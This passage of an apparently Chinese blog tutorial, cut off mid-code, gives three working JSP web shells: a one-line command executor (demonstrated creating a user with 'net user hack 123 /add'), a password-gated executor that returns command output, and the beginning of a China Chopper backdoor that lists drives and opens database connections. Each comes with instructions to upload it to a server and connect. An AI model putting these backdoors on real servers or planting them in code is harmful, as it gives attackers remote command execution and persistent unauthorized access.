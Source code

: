  我们双击打开该 html 文件

![](https://img-blog.csdnimg.cn/2019011613473011.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**无回显执行命令**

将下面的命令保存为 a.jsp，然后上传到服务器

```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

访问链接：[http://127.0.0.1:8080/EShop/a.jsp?i=net user hack 123 /add](http://127.0.0.1:8080/EShop/a.jsp?i=net%20user%20hack%20123%20/add "http://127.0.0.1:8080/EShop/a.jsp?i=net user hack 123 /add") 

![](https://img-blog.csdnimg.cn/20190116113325997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**有回显带密码执行命令**

将下面的命令保存为 b.jsp，然后上传到服务器

```
<%
    if("b".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

访问链接：[http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig](http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig "http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig") 

![](https://img-blog.csdnimg.cn/20190116113913953.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**JSP 一句话木马**

将下面保存为 shell.jsp，上传到服务器，然后用菜刀连接即可

![](https://img-blog.csdnimg.cn/20190116133840122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>
<%!String Pwd = "pass";     //菜刀连接密码
 
    String EC(String s, String c) throws Exception {
        return s;
    }//new String(s.getBytes("ISO-8859-1"),c);}
 
    Connection GC(String s) throws Exception {
        String[] x = s.trim().split("\r\n");
        Class.forName(x[0].trim()).newInstance();
        Connection c = DriverManager.getConnection(x[1].trim());
        if (x.length > 2) {
            c.setCatalog(x[2].trim());
        }
        return c;
    }
    void AA(StringBuffer sb) throws Exception {
        File r[] = File.listRoots();
        for (int i = 0; i < r.length; i++) {
            sb.append(r[i].toString().substring(0, 2));
```